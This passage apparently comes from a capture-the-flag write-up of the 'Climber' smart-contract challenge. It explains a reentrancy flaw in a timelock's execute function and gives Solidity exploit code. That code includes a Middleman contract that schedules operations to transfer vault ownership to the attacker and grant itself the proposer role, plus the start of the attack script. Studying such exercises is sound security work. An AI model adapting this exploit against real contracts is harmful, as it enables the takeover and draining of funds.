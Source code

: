 After that, the attacker has gained the ownership of the vault, it will switch the implementation to the new one and call `withdrawAll(address(token))`

After that, we need to also deploy our middle man contract that will schedule the operation just before the final `require` check done by the `execute` function.

```solidity
contract Middleman {

    function scheduleOperation(address attacker, address vaultAddress, address vaultTimelockAddress, bytes32 salt) external {
        // Recreate the scheduled operation from the Middle man contract and call the vault
        // to schedule it before it will check (inside the `execute` function) if the operation has been scheduled
        // This is leveraging the existing re-entrancy exploit in `execute`
        ClimberTimelock vaultTimelock = ClimberTimelock(payable(vaultTimelockAddress));

        address[] memory targets = new address[](3);
        uint256[] memory values = new uint256[](3);
        bytes[] memory dataElements = new bytes[](3);

        // set the attacker as the owner
        targets[0] = vaultAddress;
        values[0] = 0;
        dataElements[0] = abi.encodeWithSignature("transferOwnership(address)", attacker);

        // set the attacker as the owner
        targets[1] = vaultTimelockAddress;
        values[1] = 0;
        dataElements[1] = abi.encodeWithSignature("grantRole(bytes32,address)", vaultTimelock.PROPOSER_ROLE(), address(this));

        // create the proposal
        targets[2] = address(this);
        values[2] = 0;
        dataElements[2] = abi.encodeWithSignature("scheduleOperation(address,address,address,bytes32)",attacker, vaultAddress, vaultTimelockAddress, salt);

        vaultTimelock.schedule(targets, values, dataElements, salt);
    }

}
```

The role of this contract is just to re-create the whole operation data and schedule it on the `ClimberTimelock` contract.

Now that we have prepared the ground, it is time to execute the exploit

```solidity
// Deploy the external contract that will take care of executing the `schedule` function
Middleman middleman = new Middleman();

// prepare the operation data composed by 3 different actions
bytes32 salt = keccak256("attack proposal");
address[] memory targets = new address[](3);
uint256[] memory values = new uint256[](3);
bytes[] memory dataElements = new bytes[](3);

// set the attacker as the owner of the vault as the first operation
targets[0] = address(vault);
values[0] = 0;
dataElements[0] = abi.encodeWithSignature("transferOwnership(address)", attacker);

// grant the PROPOSER role to the middle man contract will schedule the operation
targets[1] = address(vaultTimelock);
```